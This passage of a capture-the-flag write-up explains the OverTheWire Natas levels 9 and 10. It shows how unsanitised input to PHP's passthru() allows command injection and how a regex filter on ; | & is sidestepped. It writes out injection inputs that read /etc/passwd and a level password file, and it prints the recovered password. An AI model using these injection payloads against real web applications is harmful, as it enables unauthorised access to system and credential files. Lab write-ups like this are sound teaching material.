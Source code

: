 - we know that using `grep` command we can read content of a file.
- the webpage do not sanitize our input, thus we are able to break the code and perform `code injection` attack.
- we can alter our input to make it execute something like this

```php
//our input is:  root /etc/passwd && ls
passthru("grep -i root /etc/passwd # dictionary.txt")
```

- because the code simply append our input directly into the function
- we are able to inject our own command into it. by manipulating the ways linux execute command.
- doing above example we got this output.

```
root:x:0:0:root:/root:/bin/bash
```

- let us now, view the content of `/etc/natas_webpass/natas10`

```php
//our input is: '' /etc/natas_webpass/natas10 #
passthru("grep -i '' /etc/natas_webpass/natas10 # dictionary.txt")
```

- we got the password

```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

- alternatively we can break command like this

```php
//our input is: '' test.txt & cat /etc/natas_webpass/natas10 #
passthru("grep -i '' test.txt & cat /etc/natas_webpass/natas10 # dictionary.txt")

//or
//our input is: '' . ; cat /etc/natas_webpass/natas10 #
passthru("grep -i '' . ; cat /etc/natas_webpass/natas10 # dictionary.txt")
```

- there are multiple ways to do it.

## NATAS10

- this level is same as level9 but our input get filtered by regex.
- let us inspect the regex

```
/[;|&]/
```

- what it does is , it check for any character inside list denoted by the `[]`
- based on it we know that it check for `;`, `|` and `&` character. only this two.
- from our previous exploit. we don't actually use these two characters.
- so we can simply run the same exploit again but change file to `natas11`
- we got the password
